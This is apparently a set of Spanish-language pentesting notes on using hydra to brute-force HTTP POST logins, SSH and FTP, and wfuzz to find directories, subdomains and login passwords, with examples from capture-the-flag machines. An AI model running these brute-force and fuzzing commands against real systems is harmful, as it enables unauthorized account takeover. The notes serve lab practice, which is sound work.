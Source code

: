 En el anterior caso el panel login se daba en una ventana emergente de la página. Así que, aparte de los casos normales, en situaciones de ventana emergente también se puede hacer.

Si la petición va por POST es un poquillo más largo:
```plaintext
> hydra -l USER -P DICCIO IP http-post-form "Ruta:DataporPost:FraseRespuestaInválida” -t NUMERO
```
El campo de fuerza bruta de la contraseña se describe como ^PASS^.

Ejemplo, visto en máquina **Nineveh**:  
``` plaintext
> hydra -l admin -P <elrockyou.txt> 10.10.14.52 http-post-form “/deparment/login.php:username=admin&password=^PASS^:Invalid Password” -t 50
```

También se podría poner asi:  
``` plaintext
> hydra -l admin -P <elrockyou.txt> “http-post-form://10.10.14.52/department/login.php:username=^USER^&password=^PASS^:Invalid Password” -t 50
```

**A ssh:**
``` plaintext
> hydra -l <user> -P <diccionario> ssh://<ip> -t 50
```
``` plaintext
> hydra -L <diccionarioUsers> -P <diccioPasswd> ssh://<ip> -t 20
```
**A ftp:**
``` plaintext
> hydra -L <diccioUsers> -P <diccioPasswd> ftp://<ip> -t 20
```
**WFUZZ**

Estructura y comandos:

Para subdirectorios:
``` plaintext
Wfuzz -c –-hc=404 -t 200 -w <diccionario> http://<ip>/FUZZ
```
Si quieres añadir una barra al final para que te encuentre archivos como .cgi añade la slash /
Para añadir extensiones a la búsqueda opción **-z**:
``` plaintext
> wfuzz -c --hc=404 -w /share/lists/direct../elmedium -z list,txt-php http://<ip>/FUZZ.FUZ2Z
```

Para subdominios:

Ejemplo de máquina **Forge**:
``` plaintext
> wfuzz -c --hc -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.forge.htb" http://forge.htb
```
Para panel de login:
``` plaintext
> wfuzz -c -t 200 -w <diccionario> -d <‘ladataporRAW’> <direccionIP>
```
Al poner -d ya entiende que hay data por POST y no es necesario indicarlo. Un ejemplo en la máquina **Teacher**:
``` plaintext
> wfuzz -c –-hh=434 -t 200 -w <diccionario> -d ‘username=giovani&password=FUZZ’ http://teacher.htb/moodle/login/index.php
```
Puse –hh=434 porque en la solicitud previa –igual a esa pero sin esa opción- todos los resultados daban 434 carateres en la respuesta, así que la que salga distinta será la buena.  
Puedes añadir las opciones --ss/--hs regex, de show/hide responses, sirve para mostrar u ocultar las respuestas que te de la web, ejemplo; --hs “Not account found with that username.”
